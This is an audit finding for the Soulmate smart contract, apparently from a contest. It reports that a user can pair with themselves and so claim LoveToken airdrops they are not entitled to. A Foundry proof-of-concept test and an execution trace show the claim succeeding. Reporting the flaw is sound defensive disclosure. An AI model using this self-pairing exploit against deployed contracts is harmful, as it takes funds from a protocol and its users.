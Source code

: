 
### Relevant GitHub Links

https://github.com/Cyfrin/2024-02-soulmate/blob/207db2f122ee4067d000d9f2bbf6b317ce194767/src/Soulmate.sol#L75-L76

## Summary

A user can couple with themselves. This can be on purpose or by accident. This allows the user to mint NFT and claim love tokens. This means they can also stake tokens and receive more tokens.

This will be shown in a test below.

## Vulnerability Details

User can cheat the protocol by coupling with themselfs.

## Impact

This will enable tokens to be sent to Users who are not entitled to them. It means that they will not need to couple with someone else. This defeats the purpose of the protocol.

```
**Proof of Concept**
function test_Himself1() public {
        address USER = makeAddr("user");
        vm.startPrank(USER);		       // broadcasting  User
        soulmateContract.mintSoulmateToken(); // press mint twice
        soulmateContract.mintSoulmateToken();
        address workCouple = soulmateContract.soulmateOf(USER); //shows soulmate is same user as couple
        console2.log("the partner of USER1 is:", workCouple);
        vm.stopPrank();
        vm.warp(86401);
        vm.prank(USER);
        airdropContract.claim();

        }
```

    result:

```
	624] Soulmate::soulmateOf(user: [0x6CA6d1e2D5347Bfab1d91e883F1915560e09129D]) [staticcall]
    │   └─ ← user: [0x6CA6d1e2D5347Bfab1d91e883F1915560e09129D] //shows partner is same user


    │   ├─ [2586] LoveToken::balanceOf(Vault: [0x8Ad159a275AEE56fb2334DBb69036E9c7baCEe9b])
    │   │   └─ ← 500000000000000000000000000 [5e26]
    │   ├─ emit TokenClaimed(user: user: [0x6CA6d1e2D5347Bfab1d91e883F1915560e09129D], amount: 1000000000000000000 [1e18])
    │   ├─ [33184] LoveToken::transferFrom(Vault: [0x8Ad159a275AEE56fb2334DBb69036E9c7baCEe9b], user: [0x6CA6d1e2D5347Bfab1d91e883F1915560e09129D], 1000000000000000000 [1e18])
    │   │   ├─ emit Transfer(from: Vault: [0x8Ad159a275AEE56fb2334DBb69036E9c7baCEe9b], to: user: [0x6CA6d1e2D5347Bfab1d91e883F1915560e09129D], amount: 1000000000000000000 [1e18])
    │   │   └─ ← true
    │   └─ ← ()								//!!RECEIVING FUNDS!!
    └─ ← ()
```

